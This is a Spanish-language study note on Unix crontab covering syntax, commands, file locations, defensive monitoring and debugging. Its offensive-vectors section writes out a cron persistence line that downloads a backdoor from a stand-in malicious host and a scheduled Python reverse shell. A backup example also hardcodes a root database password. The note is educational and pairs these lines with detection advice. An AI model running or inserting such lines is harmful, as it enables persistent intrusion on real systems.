


# 🕰️ Crontab: Programación de Tareas en Unix/Linux

> [!info] Herramienta esencial
> **Crontab** (Cron Table) es una utilidad de sistemas Unix/Linux que permite programar la ejecución automática de comandos o scripts en intervalos específicos o en momentos predeterminados del sistema.

---

## 📋 Tabla de Contenidos
- [Introducción](#introducción)
- [Sintaxis y Formato](#sintaxis-y-formato)
- [Comandos Básicos](#comandos-básicos)
- [Casos de Uso en Ciberseguridad](#casos-de-uso-en-ciberseguridad)
- [Ejemplos Prácticos](#ejemplos-prácticos)
- [Tips y Buenas Prácticas](#tips-y-buenas-prácticas)

---

## 📝 Introducción

### ¿Qué es crontab?

Crontab es un planificador de tareas basado en tiempo que permite a los usuarios programar comandos o scripts para que se ejecuten periódicamente en momentos específicos. El nombre "cron" deriva de la palabra griega "chronos" (tiempo).

### ¿Para qué sirve?

- Automatizar tareas rutinarias
- Ejecutar scripts en momentos específicos
- Programar mantenimiento del sistema
- Realizar copias de seguridad automáticas
- Monitoreo y generación de informes

### Contextos de uso en ciberseguridad



---

## 🔄 Sintaxis y Formato

### Formato de una entrada crontab

```
# m h dom mon dow command
*  *  *   *   *   comando_a_ejecutar
↑  ↑  ↑   ↑   ↑       ↑
│  │  │   │   │       └─ Comando o script a ejecutar
│  │  │   │   └─ Día de la semana (0-7) (0 o 7 es domingo)
│  │  │   └─ Mes (1-12)
│  │  └─ Día del mes (1-31)
│  └─ Hora (0-23)
└─ Minuto (0-59)
```

### Valores especiales para los campos de tiempo

| Entrada | Descripción |
|---------|-------------|
| `*` | Cualquier valor (todos) |
| `n` | Valor específico (ejemplo: 5) |
| `n-m` | Rango (ejemplo: 1-5) |
| `n,m,o` | Lista de valores (ejemplo: 1,3,5) |
| `*/n` | Cada n (ejemplo: */15 = cada 15 unidades) |
| `@reboot` | Ejecutar una vez al inicio del sistema |
| `@hourly` | Ejecutar cada hora (00 minutos) |
| `@daily` | Ejecutar cada día (00:00) |
| `@weekly` | Ejecutar cada semana (domingo 00:00) |
| `@monthly` | Ejecutar cada mes (día 1, 00:00) |
| `@yearly` | Ejecutar cada año (1 de enero, 00:00) |

> [!tip] Formas de especificar tiempo
> - `0 0 * * *` - Cada día a medianoche
> - `*/15 * * * *` - Cada 15 minutos
> - `0 9-17 * * 1-5` - Cada hora de 9am a 5pm, de lunes a viernes

---

## 🖥️ Comandos Básicos

### Gestión del crontab personal

| Comando | Descripción |
|---------|-------------|
| `crontab -l` | Listar las entradas de crontab del usuario actual |
| `crontab -e` | Editar el crontab del usuario actual |
| `crontab -r` | Eliminar el crontab del usuario actual |
| `crontab -u usuario` | Especificar otro usuario (requiere privilegios) |
| `crontab archivo` | Instalar el archivo como crontab del usuario actual |

### Ubicación de archivos crontab

| Ubicación | Descripción |
|-----------|-------------|
| `/var/spool/cron/crontabs/` | Archivos crontab de usuarios individuales |
| `/etc/crontab` | Crontab del sistema |
| `/etc/cron.d/` | Directorio para crontabs adicionales del sistema |
| `/etc/cron.hourly/` | Scripts ejecutados cada hora |
| `/etc/cron.daily/` | Scripts ejecutados diariamente |
| `/etc/cron.weekly/` | Scripts ejecutados semanalmente |
| `/etc/cron.monthly/` | Scripts ejecutados mensualmente |

> [!warning] Diferencias de formato
> El crontab del sistema (`/etc/crontab` y archivos en `/etc/cron.d/`) incluye un campo adicional para el usuario:
> ```
> # m h dom mon dow user command
> ```

---

## 🔐 Casos de Uso en Ciberseguridad

### Usos Defensivos

- **Monitoreo de integridad del sistema**
  ```bash
  # Verificar cambios en archivos críticos cada hora
  0 * * * * /usr/bin/tripwire --check | mail -s "Reporte de integridad" admin@ejemplo.com
  ```

- **Actualización automática de firmas**
  ```bash
  # Actualizar firmas de antivirus cada 6 horas
  0 */6 * * * /usr/bin/freshclam --quiet
  ```

- **Escaneos de vulnerabilidad programados**
  ```bash
  # Escaneo semanal de vulnerabilidades
  0 3 * * 0 /usr/local/bin/nmap -sV --script vuln 192.168.1.0/24 -oN /var/log/nmap_scan_$(date +\%Y\%m\%d).log
  ```

### Vectores Ofensivos

> [!warning] Solo con fines educativos
> Esta información se proporciona únicamente para comprender cómo los atacantes usan crontab y mejorar las defensas.

- **Persistencia**
  ```bash
  # Reinstalación de backdoor cada minuto si se elimina
  * * * * * test -f /tmp/.backdoor || curl -s http://malicioso.com/backdoor -o /tmp/.backdoor && chmod +x /tmp/.backdoor
  ```

- **Reverse shells programadas**
  ```bash
  # Conexión a C2 cada 30 minutos durante horario laboral
  */30 9-17 * * 1-5 /usr/bin/python -c 'import socket,subprocess;s=socket.socket();s.connect(("10.0.0.1",4444));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'
  ```

### Análisis Forense y Detección

- **Detección de crontabs sospechosos**
  ```bash
  # Buscar entradas de crontab que contengan direcciones IP o dominios sospechosos
  for user in $(cut -f1 -d: /etc/passwd); do crontab -u $user -l 2>/dev/null | grep -E "(curl|wget|nc|bash|sh).*([0-9]{1,3}\.){3}[0-9]{1,3}"; done
  ```

- **Monitoreo de cambios en crontab**
  ```bash
  # Guardar hash de crontabs cada hora para detectar cambios
  0 * * * * find /var/spool/cron/ -type f -exec md5sum {} \; > /var/log/crontab_hashes_$(date +\%H).log
  ```

---

## 💻 Ejemplos Prácticos

### Ejemplo 1: Monitoreo de logs con notificación

```bash
# Buscar intentos de acceso fallidos cada 10 minutos y enviar correo si se encuentran
*/10 * * * * grep "Failed password" /var/log/auth.log | tail -n 5 > /tmp/failed_logins && [ -s /tmp/failed_logins ] && mail -s "Intentos de acceso fallidos detectados" admin@ejemplo.com < /tmp/failed_logins
```

> [!info] Explicación
> 1. Se ejecuta cada 10 minutos (`*/10 * * * *`)
> 2. Busca líneas con "Failed password" en el log de autenticación
> 3. Extrae las últimas 5 ocurrencias y las guarda en un archivo temporal
> 4. Si el archivo no está vacío (`[ -s archivo ]`), envía un correo de alerta

### Ejemplo 2: Rotación de backups de base de datos

```bash
# Crea backup diario de base de datos a las 2 AM
0 2 * * * /usr/bin/mysqldump --all-databases -u root -p'PassSegura123' > /backup/mysql_$(date +\%Y\%m\%d).sql

# Elimina backups antiguos (más de 7 días) a las 3 AM
0 3 * * * find /backup/ -name "mysql_*.sql" -mtime +7 -delete
```

> [!info] Explicación
> - Primera tarea: Crea un backup completo de MySQL a las 2 AM cada día, con fecha en el nombre
> - Segunda tarea: A las 3 AM, busca y elimina backups con más de 7 días de antigüedad

### Ejemplo 3: Verificación de integridad de archivos binarios críticos

```bash
# Verifica cada 4 horas que los binarios críticos no hayan sido modificados
0 */4 * * * for bin in /bin/bash /bin/sh /usr/bin/sudo; do sha256sum $bin | grep -v "$(grep "$bin" /var/log/checksums.txt)"; if [ $? -eq 0 ]; then echo "¡Advertencia! $bin ha sido modificado" | mail -s "Modificación binario crítico" admin@ejemplo.com; fi; done
```

> [!info] Explicación
> 1. Se ejecuta cada 4 horas
> 2. Recorre una lista de binarios críticos
> 3. Calcula el hash SHA-256 y lo compara con un registro previo
> 4. Si el hash no coincide, envía una alerta por correo

---

## 💡 Tips y Buenas Prácticas

### Seguridad



> [!tip] Prácticas recomendadas
> - Usar **rutas absolutas** para todos los comandos y scripts
> - Redirigir la salida a `/dev/null` o a archivos de log
> - Ejecutar tareas con el menor privilegio posible
> - Verificar la sintaxis antes de guardar (`crontab -l`)
> - Documentar el propósito de cada tarea con comentarios
> - Configurar `/etc/cron.allow` y `/etc/cron.deny` para restringir el acceso

### Errores comunes y soluciones

| Error | Causa | Solución |
|-------|-------|----------|
| La tarea no se ejecuta | Variables de entorno limitadas | Definir variables necesarias en el crontab |
| Errores de permisos | Script no ejecutable | `chmod +x script.sh` |
| Comando funciona en shell pero no en cron | Rutas relativas | Usar rutas absolutas para todos los comandos |
| No se reciben salidas/errores | Salida no redirigida | Añadir `>> /ruta/a/log 2>&1` al final del comando |
| Script ejecutado pero sin efecto | Diferencias de entorno | Añadir `PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin` |

> [!warning] Errores de seguridad a evitar
> - **Hardcodear contraseñas** en las tareas crontab
> - Permitir que **usuarios no confiables** modifiquen scripts ejecutados por cron
> - Ejecutar tareas como **root** cuando no es necesario
> - No **monitorear** los cambios en los archivos crontab
> - Usar **caracteres especiales** sin escapar adecuadamente

### Depuración de tareas cron

```bash
# Para depurar problemas, forzar la salida a un archivo de log
* * * * * /ruta/al/script.sh >> /tmp/debug_cron.log 2>&1

# Verificar si cron está ejecutando las tareas
grep CRON /var/log/syslog

# Verificar sintaxis de un archivo crontab
crontab -l | crontab -
```

---

## 📊 Tabla de caracteres especiales en crontab

| Carácter | Descripción | Ejemplo |
|----------|-------------|---------|
| `%` | Se convierte en nueva línea en crontab, debe escaparse (`\%`) | `0 0 * * * date > /tmp/date\%Y\%m\%d.log` |
| `#` | Comentario | `# Esta línea es un comentario` |
| `\` | Escape para caracteres especiales | `\%` para usar % literalmente |
| `>` | Redirección de salida | `comando > archivo.log` |
| `>>` | Redirección de salida (append) | `comando >> archivo.log` |
| `2>` | Redirección de errores | `comando 2> errores.log` |
| `2>&1` | Redirección de errores a salida estándar | `comando > todo.log 2>&1` |

---

> [!example] Entrada típica de crontab completa
> ```bash
> # Definir variables de entorno
> SHELL=/bin/bash
> PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
> MAILTO=admin@ejemplo.com
> 
> # Ejecutar script de monitoreo cada 5 minutos
> */5 * * * * /usr/local/bin/monitor_system.sh >> /var/log/monitor.log 2>&1
> 
> # Backup diario a las 2:30 AM
> 30 2 * * * /usr/local/bin/backup.sh
> 
> # Reiniciar servicio web cada domingo a medianoche
> @weekly /bin/systemctl restart nginx
> ```

---

## 🔒 Aspectos de seguridad adicionales

- Los archivos crontab suelen estar en `/var/spool/cron/crontabs/` y son propiedad de root
- Solo el usuario propietario y root pueden ver/editar un crontab
- Para restringir qué usuarios pueden usar cron:
  - `/etc/cron.allow` - Solo estos usuarios pueden usar cron
  - `/etc/cron.deny` - Estos usuarios no pueden usar cron
- Los archivos en `/etc/cron.d/` deben tener permisos 644 y ser propiedad de root

> [!success] Puntos clave
> - Crontab es una herramienta esencial para automatizar tareas recurrentes
> - Es frecuentemente utilizada tanto por administradores como por atacantes
> - La configuración segura incluye usar rutas absolutas y mínimos privilegios
> - Auditar regularmente las tareas cron es fundamental para la seguridad
> - Entender crontab es clave para identificar persistencia maliciosa